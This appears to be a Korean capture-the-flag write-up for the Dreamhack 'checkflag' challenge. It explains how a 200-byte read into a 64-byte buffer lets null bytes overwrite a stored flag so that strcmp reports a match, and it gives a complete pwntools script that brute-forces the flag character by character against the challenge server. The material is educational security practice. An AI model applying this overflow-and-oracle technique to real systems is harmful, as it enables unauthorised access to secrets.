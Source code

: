 dreamhack checkflag
======================

<img width="517" height="403" alt="image" src="https://github.com/user-attachments/assets/5bc42a72-6777-417c-b5a4-d13ec9001002" />

<img width="527" height="388" alt="image" src="https://github.com/user-attachments/assets/fb310698-74e8-465b-98f2-44b8969a5cda" />

"flag" 파일에 저장된 문자열과 사용자가 입력한 문자열이 정확히 일치하는지 확인한다. 
만약 사용자 입력의 길이가 파일의 플래그 길이보다 짧거나 내용이 일치하지 않으면 "Failed!"를 출력하고 종료된다. 
올바른 플래그를 입력하면 "Correct!"를 출력한다.

프로그램 입력에서 발생할 수 있는 **버퍼 오버플로우** 를 이용하는 문제이다.

 * `read(0, v10, 0xC8uLL);`  를 보면 `v10` 버퍼의 크기는 **`char v10[64];`**로 선언되어 64바이트이다.
 * `read` 함수는 `0xC8uLL` (십진수로 200) 바이트를 `v10`에 읽어오도록 지시하고 있다.
 * 사용자가 64바이트보다 많은 데이터를 표준 입력(stdin)으로 주면 `read` 함수는 `v10` 버퍼의 할당된 공간(64바이트)을 초과하여 스택의 인접한 메모리 영역에 데이터를 덮어쓰게 된다.


<img width="497" height="151" alt="image" src="https://github.com/user-attachments/assets/8be3e26c-8f69-4bba-a0b1-d3eaab6be36e" />

* 여기서 입력값과 정답을 비교할때 strcmp()는 첫 번째 널문자('\0') 전까지 비교한다.
* 그런데 만약 **input에 널 문자('\0')를 65개 연속으로 입력하면** 메모리 오버플로우로 인해
  flag 버퍼의 첫 글자도 \0으로 덮인다.
* 즉 input도 "", flag도 "" → strcmp는 이 둘을 **같다** 고 인식하게 된다.


그러면 브루트포싱을 사용해 플래그를 알아낼 수 있는데

* flag 일부를 덮어쓰기 위해 입력 길이를 flag까지 넘치게 만들고
* 문자열 비교 결과가 "Correct!"인지 확인해서
* 한 글자씩 줄여가며 이 과정을 반복하며 플래그를 거꾸로 한 글자씩 알아낼 수 있다.


## 익스플로잇 코드


```python
from pwn import *

flag_len = 0
for length in range(0x3f, 0, -1):
    test_payload = b'A' * length
    payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload

    p = remote('host3.dreamhack.games', 14991)
    p.sendafter(b'flag?', payload)

    if ord('F') in p.recvuntil(b'!\n'):
        flag_len = length + 1
        p.close()
        break
    p.close()

found_flag = b''
for i in range(flag_len - 4):
    for c in range(0x20, 0x7f):
        test_payload = b'A' * (flag_len - 2 - i) + chr(c).encode() + found_flag + b'}'
        payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + b'A' * (flag_len - 2 - i)

        p = remote('host3.dreamhack.games', 14991)
        p.sendafter(b'flag?', payload)

        if ord('C') in p.recvuntil(b'!\n'):
            found_flag = chr(c).encode() + found_flag
            p.close()
            break
        p.close()

print('DH{' + found_flag.decode() + '}')
```

플래그의 길이 추정 → 플래그 내용 브루트포싱의 두 단계로 나누어 작성했다.

### flag_len 찾기 (플래그의 길이 추정)

```python
for length in range(0x3f, 0, -1):  # 0x3f = 63부터 1까지 감소
```

길이 63부터 1까지 시도하며 맞는 길이를 찾는다.

```python
test_payload = b'A' * length
payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload
```

payload 구조:
  * 입력부: A * length
  * 패딩: null (\x00)로 64바이트 채움
  * 검증부: A * length 재사용
    → 총 64바이트 입력 후 동일한 패턴을 뒤에 붙임.


```python
p.sendafter(b'flag?', payload)
if ord('F') in p.recvuntil(b'!\n'):  # 결과에 'F' 포함 시 길이 맞음
```

* 응답에 'F' ("FLAG" 또는 "FLAG format correct") 문자가 포함되면 해당 길이가 유효
* 이 때의 길이 + 1이 실제 flag 길이로 판단됨



### flag 브루트포싱

* flag는 DH{...} 형식이니까 나머지 flag_len - 4 문자만 브루트포싱하면 된다.
* 뒤에서부터 채우기 (found_flag는 뒤에서부터 쌓임) + 비교 시 "입력 + '}'" 구조로 끝이 맞는지 확인


#### 루프

```python
for i in range(flag_len - 4):  # 남은 flag 문자 수만큼 반복
    for c in range(0x20, 0x7f):  # 아스키 문자 범위 
```

```python
test_payload = b'A' * (flag_len - 2 - i) + chr(c).encode() + found_flag + b'}'
```

* 앞쪽: A로 남은 길이 채움 (공격 벡터 삽입 위치 조정)
* 중간: 현재 시도 중인 문자
* 뒤쪽: 지금까지 알아낸 flag 일부 + '}'

```python
payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + b'A' * (flag_len - 2 - i)
```

전체 payload는 앞에서 만든 입력을 64바이트로 정렬하고, 뒤쪽에 비교용 A 채운다.

```python
if ord('C') in p.recvuntil(b'!\n'):  # 응답에 'C' 포함 시 해당 문자가 정답
    found_flag = chr(c).encode() + found_flag  # 찾은 문자를 앞에 붙임
```

* 'C'가 들어오면 맞는 문자로 간주하고 found_flag에 추가.
* 이렇게 하여 뒤에서부터 한 글자씩 완성됨.

-----------------------------------

<img width="432" height="57" alt="image" src="https://github.com/user-attachments/assets/ae355a17-496b-4c0b-838a-e2843ca2ded6" />



플래그를 이렇게 구할 수 있다.
